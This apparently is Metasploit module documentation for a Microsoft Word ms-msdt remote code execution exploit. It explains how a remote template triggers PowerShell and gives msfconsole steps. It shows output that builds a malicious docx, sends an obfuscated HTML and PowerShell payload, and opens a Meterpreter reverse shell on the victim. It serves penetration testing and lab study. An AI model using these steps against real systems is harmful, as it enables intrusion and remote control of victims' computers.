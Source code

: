 This vulnerability exploit a Remote Code Execution in Microsoft Word.

The vulnerability came to light after an independent cybersecurity research team known as nao_sec
uncovered a Word document (`05-2022-0438.doc`) that was uploaded to VirusTotal from an IP address in Belarus.

The document uses the remote template feature to fetch an `HTML` and then uses the `ms-msdt` scheme to execute `PowerShell` code.

## Vulnerable Application

Waiting more informations when the CVE will be assigned.

### Make your lab

You need official version of Microsoft Office installed. And stay unpatched for this.

Tested on Microsoft Windows 10 1909 w/ Microsoft Office Word 2016.

## Verification Steps

1. Start `msfconsole`
2. `use exploit/windows/fileformat/word_msdtjs_rce`
3. `set SRVHOST [IP]`
4. `set LHOST [IP]`
5. `run`

## Options

**CUSTOMTEMPLATE**

A DOCX file that will be used as a template to build the exploit.

**OBFUSCATE**

Obfuscate JavaScript content. Default: true

## Scenarios

### Basic use

1. Generate the exploit as following.

```
[*] Started reverse TCP handler on 172.20.32.36:4444 
[*] Using URL: http://172.20.32.36:8080/1GWqOqp7e1
[*] Server started.
[*] Generate a malicious docx file
[*] Using template '/tmp/payload.docx'
[*] Parsing item from template: docProps/
[*] Parsing item from template: docProps/core.xml
[*] Parsing item from template: docProps/app.xml
[*] Parsing item from template: word/
[*] Parsing item from template: word/theme/
[*] Parsing item from template: word/theme/theme1.xml
[*] Parsing item from template: word/styles.xml
[*] Parsing item from template: word/settings.xml
[*] Parsing item from template: word/document.xml
[*] Parsing item from template: word/_rels/
[*] Parsing item from template: word/_rels/document.xml.rels
[*] Parsing item from template: word/fontTable.xml
[*] Parsing item from template: word/webSettings.xml
[*] Parsing item from template: _rels/
[*] Parsing item from template: _rels/.rels
[*] Parsing item from template: [Content_Types].xml
[*] Injecting payload in docx document
[*] Finalizing docx 'msf.docx'
[+] msf.docx stored at /home/[REDACTED]/.msf4/local/msf.docx
[*] Powershell command length: 3724
```

2. Execute the DOCX document on a remote vulnerable system.

```
[*] 172.20.7.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.7.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.7.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.7.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.7.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.7.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.7.36      word_msdtjs_rce - Sending PowerShell Payload
[*] Sending stage (200262 bytes) to 172.20.32.36
[*] Meterpreter session 1 opened (172.20.32.36:4444 -> 172.20.32.36:42674 ) at 2022-05-30 19:32:37 +0400
```

## References

  1. <https://www.reddit.com/r/blueteamsec/comments/v06w2o/suspected_microsoft_word_zero_day_in_the_wild/>
  2. <https://twitter.com/nao_sec/status/1530196847679401984?t=3Pjrpdog_H6OfMHVLMR5eQ&s=19>
